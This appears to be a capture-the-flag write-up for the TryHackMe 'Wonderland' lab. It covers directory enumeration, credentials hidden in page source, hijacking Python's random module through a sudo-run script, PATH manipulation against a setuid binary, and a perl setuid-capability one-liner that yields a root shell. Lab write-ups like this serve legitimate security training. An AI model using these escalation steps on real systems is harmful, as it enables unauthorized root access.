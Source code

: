 # TryHackMe-Wonderland

_24th August 2020_

## Nmap Scan

The initial scan reports the following.

```
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
```

### Analysis

Since HTTP is running on port 80, we can proceed to view the web page on `http://<IP>/`

## Enumeration

Initial enumerations with wfuzz and `directory-list-medium` reveals a directory `/r` on the web server. Going with the general theme, `/a`, `/b`, `/i` and `/t` are all valid subdirectories. So, we navigate to `http://<IP>/r/a/b/b/i/t/` and sure enough, it gives us a web page.

### Analysis

A piece of code like so exists in the source code and seems to be the credentials for the user (alice).

```html
<p style="display: none;">
  alice:password
</p>
```

## SSH

Trying to log in with the previous credentials to `alice@<IP>`, we get a shell.

```
alice@wonderland:~$
```

### Analysis

The current directory has the following files.

```
drwxr-xr-x 5 alice alice 4096 May 25 17:52 .
drwxr-xr-x 6 root  root  4096 May 25 17:52 ..
lrwxrwxrwx 1 root  root     9 May 25 17:52 .bash_history -> /dev/null
-rw-r--r-- 1 alice alice  220 May 25 02:36 .bash_logout
-rw-r--r-- 1 alice alice 3771 May 25 02:36 .bashrc
drwx------ 2 alice alice 4096 May 25 16:37 .cache
drwx------ 3 alice alice 4096 May 25 16:37 .gnupg
drwxrwxr-x 3 alice alice 4096 May 25 02:52 .local
-rw-r--r-- 1 alice alice  807 May 25 02:36 .profile
-rw------- 1 root  root    66 May 25 17:08 root.txt
-rw-r--r-- 1 root  root  3577 May 25 02:43 walrus_and_the_carpenter.py
```

The python script seems to randomly display 10 lines from a poem string.

```
The line was:	 And why the sea is boiling hot —
The line was:	 And this was odd, because, you know,
The line was:	 The sands were dry as dry.
The line was:	 And more, and more, and more —
The line was:	 There were no birds to fly.
The line was:	 Shining with all his might:
The line was:	 "A pleasant walk, a pleasant talk,
The line was:	 They wept like anything to see
The line was:	 "It seems a shame," the Walrus said,
The line was:	 All hopping through the frothy waves,
```

Checking the rights for the current user with `sudo -l`, we find the following.

```
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

So, We can run sudo `/usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py` as the user (rabbit).
Since the script uses the `random` module, we can create a malicious script as a fake random module in the same directory so that the script executes our `random.py` instead of the real random module.

## Privilege escalation

The script to get shell can be created as follows.

```
import os

os.system('/bin/bash')
```

This is now stored as `random.py` in the same directory.

### Analysis

Upon execution as the user (rabbit) as `alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py`, we get

```
rabbit@wonderland:~$
```

We have successfully escalated our privileges to the (rabbit) user.

## Execution flow hijacking

Looking in the rabbit directory at `/home/rabbit`, we find a file called teaParty which is a setuid Linux binary. Running it gives us the following.

```
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by Mon, 24 Aug 2020 18:03:53 +0000
Ask very nicely, and I will give you some tea while you wait for him
```

Upon further examination of the source on downloading, we find that the binary uses the date command in bash. We can manipulate the PATH variable of this file and obtain a shell from the user which this file actually belongs to by creating a new bash script to get a shell (/bin/bash) and setting the new path like so: `export PATH=/home/rabbit:$PATH`.

### Analysis

Doing so gives us the prompt

```
hatter@wonderland:/home/rabbit$
```

We have escalated ourselves to the (hatter) user. Upon navigating to the `/home/hatter` directory, we find a `password.txt` file which contains a password for the (hatter) user. Checking for the rights of the user (hatter) with `sudo -l` does not give us much. Doing some basic enumeration reveals that perl has the following capability set: `cap_setuid+ep`. `perl` does not seem to run on the shell so we use the password obtained previously to get superuser by running `su hatter`(gid changes).

## Privilege Escalation(to root)

Since we need to abuse the setuid capability using perl, we can check for the same on [gtfobins](https://gtfobins.github.io/gtfobins/perl/). This gives us an entry like so.

```sh
./perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

So we run the same on the machine using `/usr/bin/perl` and we get a shell for the (root) user.

### Analysis

Navigating to the `/home/alice` directory we find that we can now open the file `root.txt` and that it contatains the flag for the challenge. Navigating to `/root` gives us a file `user.txt` with another flag for the additional question.

